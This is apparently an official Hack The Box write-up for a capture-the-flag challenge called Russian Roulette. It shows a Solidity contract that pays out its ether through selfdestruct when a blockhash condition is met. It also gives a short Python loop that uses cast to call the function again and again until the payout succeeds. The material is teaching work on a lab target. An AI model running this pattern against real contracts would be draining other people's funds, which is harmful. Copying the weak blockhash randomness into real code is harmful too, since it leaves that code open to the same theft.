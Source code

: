 ![img](../../../../../assets/banner.png)

<img src='../../../../../assets/htb.png' style='margin-left: 20px; zoom: 80%;' align=left /> <font size='10'>Russian Roulette</font>

28<sup>th</sup> 2022 / Document No. D22.102.16

Prepared By: perrythepwner

Challenge Author(s): perrythepwner

Difficulty: <font color=green>Very Easy</font>

Classification: Official


# Synopsis

- This challenge serves as an entry-level warmup for the blockchain category. To solve it, players need to send a series of transactions until they get lucky.

## Description

- Welcome to The Fray. This is a warm-up to test if you have what it takes to tackle the challenges of the realm. Are you brave enough?

## Skills Required

- Smart contract interaction.


## Skills Learned

- Smart contract interaction.
- Block dependency.

## Analyzing the source code

Let's examine the provided source code.

**Setup.sol**
```solidity
pragma solidity 0.8.23;

import {RussianRoulette} from "./RussianRoulette.sol";

contract Setup {
    RussianRoulette public immutable TARGET;

    constructor() payable {
        TARGET = new RussianRoulette{value: 10 ether}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

This setup will deploy the challenge instance for us. It appears that a `TARGET` contract will be deployed with `10 ether` in it. To solve the challenge, the balance of that contract needs to be reduced to `0 ether` (by transferring the funds from a newly deployed contract).

**RussianRoulette.sol**
```solidity
pragma solidity 0.8.23;

contract RussianRoulette {

    constructor() payable {
        // i need more bullets
    }

    function pullTrigger() public returns (string memory) {
        if (uint256(blockhash(block.number - 1)) % 10 == 7) {
            selfdestruct(payable(msg.sender)); // 💀
        } else {
		return "im SAFU ... for now";
	    }
    }
}
```
The code we need to exploit is contained within the `pullTrigger()` function. This function will `selfdestruct()` to the interacting address (`msg.sender`) if certain conditions are met. Otherwise, it will return a string indicating that everything is [*"SAFU"*](https://www.google.com/search?&q=safu+meaning).

Let's delve into the functionality of `selfdestruct()`. According to the [Solidity 0.8.23 documentation](https://docs.soliditylang.org/en/v0.8.23/introduction-to-smart-contracts.html#deactivate-and-self-destruct), invoking the `selfdestruct` instruction will not only erase the code of the smart contract from the blockchain for subsequent blocks but will also **transfer all the Ether contained within it to a designated address**. In this context, the  specified address is `msg.sender`, which corresponds to the address initiating the transaction at that moment.

It's worth noting that starting from the Solidity 0.8.24, known as "Cancun" the  behavior of `selfdestruct` is going to change. Following this upgrade, invoking `selfdestruct` will no longer clear the contract code unless it's executed during the contract deployment transaction. You can read more about this update [here](https://twitter.com/solidity_lang/status/1750775408013046257).

Now that we understand how `selfdestruct()` operates in the specified version of Solidity, let's explore the conditions under which we could steal the funds from the contract.

```solidity
uint256(blockhash(block.number - 1)) % 10 == 7
```

This condition is critical to trigger. It involves fetching the hash of the preceding block, converting it to a `uint256` type (from `bytes32`), performing a modulo operation by 10, and checking if the remainder is 7. If this condition is met, the contract will undergo self-destruction, potentially leading to a windfall.

## Exploitation

## Finding the vulnerabity

As outlined in the Analysis section, our objective is to fulfill the following condition:

```solidity
uint256(blockhash(block.number - 1)) % 10 == 7
```

Luckily for us, simply calling the function repeatedly increases our  chances of achieving success in a relatively short amount of time. This phenomenon is known as a Block Dependency issue. However, it's worth noting that executing an unprotected `selfdestruct` based solely on random function calls isn't a prudent strategy in any case.

## Fetching the information

Upon launching the challenge, we will encounter two sockets. One socket serves as the challenge handler, while the other serves as the RPC endpoint. Upon connecting to the challenge handler, we will be presented with three options:

```shell
$ nc 0.0.0.0 1338
1 - Connection information
2 - Restart Instance
3 - Get flag
action?
```

Before proceeding, it's essential to launch the game instance, which will provide us with the necessary information to establish a connection.

```shell
$ nc 0.0.0.0 1338
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0x1e7ed27cf8804c820d69d04b69745634b54a989112752dd4ddd540e4dd6c1bc5
Address         :  0x18Bdd72777BccB5bCb5590bE6c947B68B38066c6
Target contract :  0x406607888e97f1f4F1cb225fC002DF46b50a85D0
Setup contract  :  0xC8333ab86099e2cDe792F81C4BA830CCb17D9B68
```

To connect to the blockchain, various tools are available, such as [web3.py](https://github.com/ethereum/web3.py), [cast](https://book.getfoundry.sh/cast/), and others. We will utilizei `cast` for the exploitation.

## Getting the flag

We can create a simple Python script to execute a `cast send` command repeatedly in the `pullTrigger()` function with addresses fetched from the netcat instance, testing our luck to see if we hit the jackpot.

```python
while True:
    # try luck
    system("cast send $TARGET 'pullTrigger()' --rpc-url $RPC_URL --private-key $PVK") 
    
    # get flag
    with remote("0.0.0.0", HANDLER_PORT) as p:
        p.recvuntil(b"action? ")
        p.sendline(b"3")
        flag = p.recvall().decode()
    if "HTB" in flag:
        print(f"\n\n[*] {flag}")
        break
```
